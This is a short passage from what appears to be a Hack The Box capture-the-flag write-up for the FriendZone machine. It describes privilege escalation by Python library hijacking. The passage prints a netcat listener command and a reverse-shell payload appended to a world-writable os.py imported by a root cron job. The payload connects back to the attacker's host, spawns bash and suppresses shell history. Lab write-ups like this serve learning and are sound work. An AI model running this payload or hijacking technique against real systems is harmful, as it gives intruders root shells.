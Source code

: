 With confidence this plan will work, let's start up our listener to catch the reverse shell:

```text
~/ctf/htb/friendzone # nc -v -n -l -p 9002
```

Next, we backup the original os.py module and append this to the end of the world-writeable os.py that the report.py script imports:

```text
import pty
import socket

lhost = "10.10.33.33"
lport = 9002
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

We wait for the cron job to run, and we know right when it does as the plan works and we get a shell as root.

[1]: https://www.hackthebox.eu/home/users/profile/17292
[2]: https://www.hackthebox.eu
[3]: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
